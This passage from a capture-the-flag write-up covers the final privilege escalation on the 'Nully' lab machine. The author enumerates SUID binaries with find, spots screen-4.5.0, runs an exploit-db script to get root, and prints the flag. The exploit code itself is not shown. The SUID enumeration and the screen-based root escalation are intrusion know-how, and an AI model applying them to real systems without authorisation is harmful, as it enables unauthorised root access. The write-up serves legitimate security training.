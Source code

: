 **Privilege escalation**
`find / -perm -4000 -exec ls -l {} \; 2&gt;/dev/null  
-rwsr-xr-x 1 root root 44784 May 28 08:37 /usr/bin/newgrp  
-rwsr-xr-x 1 root root 68208 May 28 08:37 /usr/bin/passwd  
-rwsr-xr-x 1 root root 67816 Apr  2 17:29 /usr/bin/su  
-rwsr-xr-x 1 root root 55528 Apr  2 17:29 /usr/bin/mount  
-rwsr-xr-x 1 root root 85064 May 28 08:37 /usr/bin/chfn  
-rwsr-xr-x 1 root root 39144 Apr  2 17:29 /usr/bin/umount  
-rwsr-xr-x 1 root root 53040 May 28 08:37 /usr/bin/chsh  
-rwsr-xr-x 1 root root 88464 May 28 08:37 /usr/bin/gpasswd  
-rwsr-xr-x 1 root root 1860280 Aug 27 09:50 /usr/bin/screen-4.5.0  
-rwsr-xr-- 1 root messagebus 51344 Jun 11 20:22 /usr/lib/dbus-1.0/dbus-daemon-launch-helper  
-rwsr-xr-x 1 root root 473576 May 29 09:37 /usr/lib/openssh/ssh-keysign  
donald@DatabaseServer:~$`

This binary stands out
`/usr/bin/screen-4.5.0`

Doing a little googling leads as to a script from exploit db, save the script on the system mark it as executable using chmod and execute it
`donald@DatabaseServer:~$ chmod +x privesc.sh   
donald@DatabaseServer:~$ ./privesc.sh`

We get root access and cat the flag in the root directory
`# id  
uid=0(root) gid=0(root) groups=0(root),1000(donald)  
# cd /root  
# ls  
3_flag.txt  
# cat 3_flag.txt``_  _   _____             _           _ _   
  _| || |_|  __ \           | |         | | |  
 |_  __  _| |__) |___   ___ | |_ ___  __| | |  
  _| || |_|  _  // _ \ / _ \| __/ _ \/ _` | |  
 |_  __  _| | \ \ (_) | (_) | ||  __/ (_| |_|  
z   |_||_| |_|  \_\___/ \___/ \__\___|\__,_(_)``6cb25d4789cdd7fa1624e6356e0d825b``Congratulations on getting the final flag!   
You completed the Nully Cybersecurity CTF.  
I will be glad if you leave a feedback.``Twitter [https://twitter.com/laf3r_](https://twitter.com/laf3r_)  
Discord laf3r#4754`

Happy hacking :)
